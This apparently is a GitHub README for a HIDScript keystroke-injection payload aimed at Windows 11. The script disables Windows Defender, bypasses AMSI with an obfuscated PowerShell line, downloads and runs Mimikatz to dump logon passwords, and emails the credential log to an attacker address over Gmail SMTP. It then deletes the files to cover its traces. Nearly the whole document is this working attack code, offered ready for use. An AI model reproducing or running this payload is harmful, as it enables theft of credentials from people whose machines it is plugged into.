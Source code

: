 # Credentials - Mimikatz + Send Result to Mail

## Description

This is a simple HIDScript that disable windows defender, run Mimikatz (logonPasswords) and save the result to log.
Then it send to your mail the log as attachment, delete Mimikatz and log files and finally re-enable windows defender.

## Requirement

1. First note this script has been created and tested under Windows 11 Build 22000 and that i give the full path of "Windows Security" to disable Windows Defender. You may need to change the path according to you.

2. I used a QWERTZ keyboard to do this ("ch" layout), so you may need to change that.

3. Change the sender e-mail/password and set the attacker email that will receive the mail with the Mimikatz log attached to.

4. To deliver the mail, you need first to allow less secure app to access you'r Gmail account. To do this you need first to disable 2FA, then enable less secure app (<a href="https://myaccount.google.com/lesssecureapps">direct link</a>). I suggest to create a Gmail account only for this purpose, instead of using you'r personal account if you are using Gmail. As you need to disable 2FA it expose you'r account.

## Code

```bash
layout("ch")
press("GUI r")
delay(1000)
type("C:/Program Files/WindowsApps/Microsoft.SecHealthUI_1000.22000.1.0_neutral__8wekyb3d8bbwe/SecHealthUI.exe")
press("ENTER")
delay(1000)
press("ENTER")
delay(1000)
press("TAB")
press("TAB")
press("TAB")
press("TAB")
press("ENTER")
delay(1000)
press("SPACE")
delay(1000)
press("LEFT")
delay(1000)
press("ENTER")
delay(1000)
press("GUI r")
delay(200)
type("powershell.exe start-process powershell -verb runas")
press("ENTER")
delay(1500)
press("LEFT")
press("ENTER")
delay(1000)
type("[Ref].Assembly.GetType('System.Management.Automation.Amsi'+[char]85+'tils').GetField('ams'+[char]105+'InitFailed','NonPublic,Static').SetValue($null,$true)")
press("ENTER")
delay(1000)
type("(New-Object System.Net.WebClient).DownloadFile('https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810-2/mimikatz_trunk.zip','C:\\mimikatz_trunk.zip')")
press("ENTER")
delay(1000)
type("cd /")
press("ENTER")
delay(500)
type("mkdir mimi")
press("ENTER")
delay(500)
type("Expand-Archive -Path mimikatz_trunk.zip -DestinationPath C:\\mimi")
press("ENTER")
delay(1500)
type("cd mimi")
press("ENTER")
delay(500)
type("cd x64")
press("ENTER")
delay(500)
type(".\\mimikatz.exe")
press("ENTER")
delay(1000)
type("log log.txt")
press("ENTER")
delay(1000)
type("privilege::debug")
press("ENTER")
delay(1000)
type("sekurlsa::logonPasswords")
press("ENTER")
delay(1000)
type("exit")
press("ENTER")
delay(1000)
type("$emailSmtpServer = 'smtp.gmail.com';$emailSmtpServerPort = '587';$emailSmtpUser = 'sender@gmail.com';$emailSmtpPass = 'YourSuperPassword';$emailMessage = New-Object System.Net.Mail.MailMessage;$emailMessage.From = 'HIDScript LogonPassword Mimikatz <sender@gmail.com>';$emailMessage.To.Add('attacker@protonmail.com');$emailMessage.Body = 'W00tW00t, You received one log file, see attachment!';$SMTPClient = New-Object System.Net.Mail.SmtpClient( $emailSmtpServer , $emailSmtpServerPort );$SMTPClient.EnableSsl = $true;$SMTPClient.Credentials = New-Object System.Net.NetworkCredential( $emailSmtpUser , $emailSmtpPass );$attachment = 'C:\\mimi\\x64\\log.txt';$emailMessage.Attachments.Add($attachment);$SMTPClient.Send($emailMessage)")
press("ENTER")
delay(2000)
type("cd /")
press("ENTER")
type("rmdir mimi")
press("ENTER")
delay(1000)
type("T")
press("ENTER")
delay(1000)
type("del mimikatz_trunk.zip")
press("ENTER")
delay(500)
type("exit")
press("ENTER")
delay(1000)
press("SPACE")
delay(1000)
press("ALT F4")

```
